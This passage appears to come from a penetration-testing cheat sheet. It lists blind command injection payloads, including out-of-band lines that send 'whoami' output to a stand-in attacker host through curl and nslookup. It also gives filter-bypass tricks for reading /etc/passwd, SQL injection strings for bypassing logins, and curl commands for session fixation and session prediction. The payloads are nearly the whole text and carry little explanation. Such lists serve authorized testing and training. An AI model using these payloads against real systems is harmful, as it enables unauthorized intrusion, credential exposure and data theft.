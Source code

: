 #### 5.2 Advanced Command Injection

**Blind Command Injection:**
```bash
# Time-based detection
; sleep 10
; ping -c 5 127.0.0.1

# Out-of-band detection
; ping attacker_ip
; curl http://attacker_ip/$(whoami)
; nslookup $(whoami).attacker_domain
```

**Filter Bypasses:**
```bash
# Space bypasses
{cat,/etc/passwd}
cat</etc/passwd
cat$IFS/etc/passwd
cat${IFS}/etc/passwd

# Command substitution
$(cat /etc/passwd)
`cat /etc/passwd`
```

### Scenario 6: Authentication and Session Bypasses

#### 6.1 SQL Injection Authentication Bypass
```sql
# Login form bypasses
admin'--
admin'/*
' OR '1'='1
' OR 1=1--
' OR 'a'='a
admin' OR '1'='1'--
```

#### 6.2 Session Management Attacks
**Session Fixation:**
```bash
# Set session ID before authentication
curl -b "PHPSESSID=attacker_controlled_session" http://target_ip/login
```

**Session Prediction:**
```bash
# Analyze session token patterns
for i in {1..10}; do
    curl -c cookies_$i.txt http://target_ip/login
    grep PHPSESSID cookies_$i.txt
done
```
